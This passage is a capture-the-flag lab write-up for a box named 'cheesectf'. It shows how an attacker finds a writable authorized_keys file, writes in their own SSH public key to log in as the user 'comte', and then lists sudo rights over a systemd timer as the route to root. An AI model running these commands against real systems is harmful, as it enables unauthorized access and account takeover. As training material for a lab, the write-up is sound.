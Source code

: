 ## Shell as comte 

While checking for files writable by the `www-data` user, we discover `/home/comte/.ssh/authorized_keys`.

```console
www-data@cheesectf:/var/www/html$ find /  -type f -writable 2>/dev/null | grep -Ev '^(/proc|/snap|/sys|/dev)'
/home/comte/.ssh/authorized_keys
/etc/systemd/system/exploit.timer
```
{: .wrap }

To get a shell as the `comte` user, we can simply add an SSH key to the `authorized_keys` file.

First, we need to generate an SSH key.

```console
$ ssh-keygen -f id_ed25519 -t ed25519

$ cat id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMh5/bXQHhNglSUiAYM7seONoiiQB7hVAr7HeeDaEIF0 kali@kali
```

Next, we write the public key to the `/home/comte/.ssh/authorized_keys` file.

```console
www-data@cheesectf:/var/www/html$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMh5/bXQHhNglSUiAYM7seONoiiQB7hVAr7HeeDaEIF0 kali@kali' > /home/comte/.ssh/authorized_keys
```
{: .wrap }

Now, using the private key, we can SSH into the system and obtain a shell as the `comte` user, allowing us to read the user flag.

```console
$ ssh -i id_ed25519 comte@10.10.184.98
...
comte@cheesectf:~$ id
uid=1000(comte) gid=1000(comte) groups=1000(comte),24(cdrom),30(dip),46(plugdev)
comte@cheesectf:~$ wc -c user.txt
4276 user.txt
```

## Shell as root

Checking the `sudo` privileges for the `comte` user, we see that we can reload the configuration files for `systemd` and manually start the `exploit.timer`, which will in turn trigger the execution of `exploit.service`.

```console
comte@cheesectf:~$ sudo -l
User comte may run the following commands on cheesectf:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
```

